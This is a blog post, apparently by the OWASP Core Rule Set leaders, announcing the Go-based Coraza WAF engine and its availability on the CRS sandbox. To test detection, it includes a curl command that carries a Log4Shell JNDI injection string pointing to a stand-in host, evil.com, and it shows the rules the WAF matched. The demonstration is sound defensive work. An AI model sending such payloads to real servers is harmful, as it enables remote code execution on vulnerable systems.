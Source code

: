 ```yaml
---

date: 2021-12-22 00:00:00-0700
categories: blog
author: Christian Folini
author_image:
layout: blogpost
title: OWASP Core Ruleset Project announces Coraza SecLang engine
excerpt_separator: <!--more-->

---
```


The OWASP ModSecurity Core Rule Set project has been waiting for an alternative WAF engine for quite some time. But the waiting is coming to an end now with the arrival of the new Coraza WAF, a fully compliant OSS WAF engine able to run CRS in production.

<!--more-->

Coraza is an implementation of a ModSecurity SecLang engine in the memory-safe Go language, all developed by Juan Pablo Tosso from Chile. Coraza is currently only working on the Caddy web server, but Coraza already passes 100% of the CRS test suite and we are convinced it is production ready. Juan Pablo has picked up work on Apache and NGINX integration, and he wants to make it a drop-in replacement for ModSecurity. And then many, many more plans. The only obstacle to fill these with life is the lack of a developer community around Coraza. And we sincerely hope that the beauty of the project will inspire people to check it out and join!

To give you an early access to Coraza, if you do not have a Caddy webserver to play around, we have set up a Caddy with Coraza on our CRS sandbox, and you can try it out immediately. In the following example, we will send a Log4J exploit to the sandbox. Note that with the “x-backend” header, we pick Coraza as an engine, and with “x-crs-version” we pick the Core Rule Set with the extra Log4J rule from our earlier Log4J blog post.

    $ curl -H "x-crs-paranoia-level: 4" \
          -H "x-format-output: txt-matched-rules" \
          -H "x-backend: coraza" \
          -H "x-crs-version: 3.4.0-dev-log4j" \
          -H 'User-Agent: ${jndi:ldap://evil.com}' \
          https://sandbox.coreruleset.org
    1005 PL1 Potential Remote Command Execution: Log4j CVE-2021-44228
    932130 PL1 Remote Command Execution: Unix Shell Expression Found
    949110 PL1 Inbound Anomaly Score Exceeded (Total Score: 10)
    980130 PL1 Inbound Anomaly Score Exceeded (Total Inbound Score: 10 - SQLI=0,XSS=0,RFI=0,LFI=0,RCE=10,PHPI=0,HTTP=0,SESS=0): individual paranoia level scores: 10, 0, 0, 0

We are not sailing away from the ModSecurity island just yet, but we are helping to build a new ship. While we see problems with the viability of the ModSecurity project, we will continue to test it and report issues with ModSecurity productively in order to help improve its outlook. Meanwhile, we will work with the community on creating alternatives such as Coraza, so our users can use the Core Rule Set with any modern setups for many years to come. Our sandbox will be a useful asset to help us assess and compare various engines, to give our users as many options as possible.

If you are interested in looking at Coraza, here are some interesting links:

* [https://coraza.io](https://coraza.io)
* [https://coraza.io/docs/tutorials/introduction/](https://coraza.io/docs/tutorials/introduction/)
* [https://github.com/jptosso/coraza-waf](https://github.com/jptosso/coraza-waf)

We will keep you updated on new developments in this regard.

Walter Hop and Christian Folini, leaders of the OWASP ModSecurity Core Rule Set project
